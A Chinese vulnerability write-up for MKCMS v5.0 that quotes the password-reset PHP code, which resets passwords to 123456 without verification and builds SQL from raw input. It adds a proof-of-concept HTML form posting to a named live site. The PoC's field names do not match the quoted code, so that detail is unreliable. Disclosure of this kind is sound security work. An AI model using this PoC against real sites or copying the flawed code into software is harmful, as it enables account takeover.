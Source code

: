 MKCMS v5.0 任意密码重置漏洞
===========================

一、漏洞简介
------------

二、漏洞影响
------------

MKCMS v5.0

三、复现过程
------------

漏洞出现在`/ucenter/repass.php`第1-44行:

    <?php 
    include('../system/inc.php');
    if(isset($_SESSION['user_name'])){
    header('location:index.php');
    };

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    $email = trim($_POST['email']);
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username' and u_email='$email'");
    if(!! $row = mysql_fetch_array($query)){
    $_data['u_password'] = md5(123456);
    $sql = 'update mkcms_user set '.arrtoupdate($_data).' where u_name="'.$username.'"';
    if (mysql_query($sql)) {

    $token =$row['u_question'];
    include("emailconfig.php");
        //创建$smtp对象 这里面的一个true是表示使用身份验证,否则不使用身份验证.
        $smtp = new Smtp($MailServer, $MailPort, $smtpuser, $smtppass, true); 
        $smtp->debug = false; 
        $mailType = "HTML"; //信件类型，文本:text；网页：HTML
        $email = $email;  //收件人邮箱
        $emailTitle = "".$mkcms_name."用户找回密码"; //邮件主题
        $emailBody = "亲爱的".$username."：<br/>感谢您在我站注册帐号。<br/>您的初始密码为123456<br/>如果此次找回密码请求非你本人所发，请忽略本邮件。<br/><p style='text-align:right'>-------- ".$mkcms_name." 敬上</p>";

        // sendmail方法
        // 参数1是收件人邮箱
        // 参数2是发件人邮箱
        // 参数3是主题（标题）
        // 参数4是邮件主题（标题）
        // 参数4是邮件内容  参数是内容类型文本:text 网页:HTML
        $rs = $smtp->sendmail($email, $smtpMail, $emailTitle, $emailBody, $mailType);
    if($rs==true){
    echo '<script>alert("请登录到您的邮箱查看您的密码！");window.history.go(-1);</script>';
    }else{
    echo "找回密码失败";
    }

    }
    }
    }

    ?>

本质上来说此处是一个逻辑问题，程序未通过邮箱等验证是否为用户本身就直接先在第13-14行把用户密码重置为`123456`了，根本没管邮件发送成功没有。

![](./.resource/MKCMSv5.0任意密码重置漏洞/media/rId24.jpg)

### poc

> 构造如下poc.html,并访问poc.html，然后用123456密码登录即可

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://v.micool.top/ucenter/repass.php" method="POST">
          <input type="hidden" name="u&#95;name" value="lduo123" />
          <input type="hidden" name="u&#95;email" value="admin&#64;gmail&#46;com" />
          <input type="submit" value="Submit request" />
        </form>                         
      </body>
    </html>

参考链接
--------

> https://xz.aliyun.com/t/4189\#toc-1
>
> https://cisk123456.blogspot.com/2019/04/mkcms-v50.html

